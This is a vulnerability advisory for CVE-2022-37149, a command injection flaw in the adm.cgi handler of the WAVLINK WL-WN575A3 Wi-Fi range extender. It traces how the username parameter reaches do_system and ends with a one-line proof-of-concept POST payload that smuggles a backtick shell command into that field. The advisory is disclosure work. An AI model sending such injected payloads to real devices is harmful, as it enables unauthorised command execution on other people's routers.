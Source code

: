 # Information

Vendor of the products:WAVLINK

Reported by: FeiXincheng(FXC030618@outlook.com) && WangJincheng(wjcwinmt@outlook.com)  && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

Affected products:WAVLINK  WL-WN575A3

Affected firmware version: RPT75A3.V4300.201217

Vendor Homepage:  https://www.wavlink.com/en_us

Vendor Advisory:  https://www.wavlink.com/en_us/firmware/details/fac744bd61.html

CVE_ID:CVE-2022-37149

# Summarize

`WAVLINK  WL-WN575A3` was discovered to contain a command injection vulnerability when operate the file `adm.cgi`. This vulnerability allows attackers to execute arbitrary commands via the `username` parameter.

# Show the product

`Wavlink WL-WN575A3` s a AC1200 Dual-band Wi-Fi Range Extender. The test version here is `RPT75A3.V4300.201217`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/1.png)

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/adm.cgi`

At first, from the `_start`entry enters, and then the `ftext` function is executed.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/2.png)

In the function `ftext`, we find that we can controll the content of `page` field is `sysinit`, we can execute the `set_sys_init` function.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/3.png)

In the function `set_sys_init`, the program uses function `web_get` to obtain the content of parameter  `username` , `newpass`  which are sent by `POST` request. Then, when `newpass!= 0`, the content username is formatted into a string passed as an argument to the function `do_system` which can execute system commands.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/4.png)

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/5.png)



# poc

Send the following to the URL `http://wifi.wavlink.com/cgi-bin/adm.cgi` by `POST` request.

```
page=sysinit&username=fxc`ls>/etc_ro/lighttpd/www/fxc.html`
```

#### Before attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/6.png)

#### After attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/WAVLINK/WN575A3/img/7.png)
